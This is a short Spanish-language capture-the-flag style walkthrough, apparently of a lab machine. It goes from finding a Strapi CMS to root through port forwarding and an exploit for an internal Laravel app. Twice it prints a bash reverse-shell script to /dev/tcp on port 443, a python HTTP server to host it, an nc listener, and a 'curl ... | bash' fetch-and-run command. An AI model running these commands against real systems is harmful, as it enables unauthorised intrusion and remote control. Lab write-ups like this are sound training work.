 # Fase de reconocimiento
80
## Enumeración
Enocntramos un JS en la web que redirige a una API

# Fase de ataque
La API contiene un panel de administacion CMS Strapi
Buscamos posibles vulnerabilidades
```
searchesploit strapi
```
Hay un exploit de RCE 
Traemos el exploit para ejecutarlo
```
searchesploit -m <ruta vista>
```
Ejecutamos
```
python3 <exploit.py> http://<webstrapi>
```

Conseguimos ejeucion remota pero bind
## Conseguir Reverse shell 
1. Creamos un archivo.html con la shell
```
#!/bin/bash

bash -i >& /dev/tcp/<ipa>/443 0>&1
```
2. Creamos una web para alojar el archivo
```
python3 -m http.server 80
```
3. Nos ponemos en escucha
```
nc -nlvp 443
```
4. En el RCE eejuctamos el archivo
```
curl http://<ipa>/<archivo> | bash
```
[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
# Privilege Escalation
Encontramos una web CMS interna Lavarel
```
netstat -nat
```
Lo traemos a nuestra maquina local con PortForwading
Encontramos un CVE y utilizamos el exploit para ganar acceso como root
1. Creamos un archivo.html con la shell
```
#!/bin/bash

bash -i >& /dev/tcp/<ipa>/443 0>&1
```
2. Creamos una web para alojar el archivo
```
python3 -m http.server 80
```
3. Nos ponemos en escucha
```
nc -nlvp 443
```
4. En el RCE eejuctamos el archivo
```
curl http://<ipa>/<archivo> | bash
```
[+] ==pwned!==